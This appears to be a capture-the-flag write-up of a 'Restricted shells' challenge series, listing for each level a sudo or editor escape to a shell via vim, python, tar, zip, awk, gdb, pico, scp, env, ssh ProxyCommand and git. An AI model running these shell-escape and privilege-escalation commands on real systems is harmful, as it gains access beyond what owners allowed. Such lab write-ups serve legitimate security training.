 # Restricted shells

### ch14

```
$ vim
```
```
:set shell=/bin/bash
:shell
```

### ch14-1

```
sudo -u app-script-ch14-2 /usr/bin/python
>>> import os
>>> os.system('/bin/bash')
```

### ch14-2

```
$ sudo -u app-script-ch14-3 tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

### ch14-3

```
app-script-ch14-3@challenge02:/tmp/a$ TF=$(mktemp -u)
app-script-ch14-3@challenge02:/tmp/a$ sudo -u app-script-ch14-4 zip $TF /etc/hosts -T -TT 'sh #'
```

### ch14-4

```
$sudo -u app-script-ch14-5 awk 'BEGIN {system("/bin/bash")}'
```

### ch14-5

```
sudo -u app-script-ch14-6 /usr/bin/gdb -q -ex "set shell='/bin/bash'" /bin/ls
```

### ch14-6

```
pico
^R^X
reset; bash 1>&0 2>&0
```

### ch14-7

```
$TF=$(mktemp)
$echo 'sh 0<&2 1>&2' > $TF
$chmod +x "$TF"
$chmod 777 "$TF"
$sudo -u app-script-ch14-8 scp -S $TF x y:
```

### ch14-8
```
$sudo -u app-script-ch14-9 env /bin/bash
```

### ch14-9
```
$sudo -u app-script-ch14-10 ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

### ch14-10
```
$sudo -u app-script-ch14-11 git help config
```
```
!/bin/bash
```

###ch14-11

```

```
`
